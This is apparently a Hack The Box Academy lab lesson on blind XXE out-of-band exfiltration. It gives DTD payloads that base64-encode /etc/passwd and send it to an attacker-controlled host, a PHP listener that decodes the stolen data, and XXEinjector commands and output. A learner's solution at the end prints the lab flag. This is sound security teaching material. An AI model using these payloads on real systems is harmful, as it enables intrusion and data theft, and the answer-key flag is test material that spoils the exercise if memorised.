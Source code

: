 # Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

***

### Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

Code: xml

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

Code: php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

Blind Data Exfiltration

```shell-session
AIceBear@htb[/htb]$ vi index.php # here we write the above PHP code
AIceBear@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application: ![blind\_request](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_blind\_request.jpg)

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

Blind Data Exfiltration

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

Tip: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

***

### Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

Blind Data Exfiltration

```shell-session
AIceBear@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

Code: http

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

Blind Data Exfiltration

```shell-session
AIceBear@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

Blind Data Exfiltration

```shell-session
AIceBear@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

Try to use the tool to repeat other XXE methods we learned.

**Questions**

Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

```bash
#first create dtd file
vim xxe.dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.158:80/?content=%file;'>">

#second host php webserver
vim index.php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
php -S 0.0.0.0:80

#now modified the request
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.158:80/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

#result 
<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```
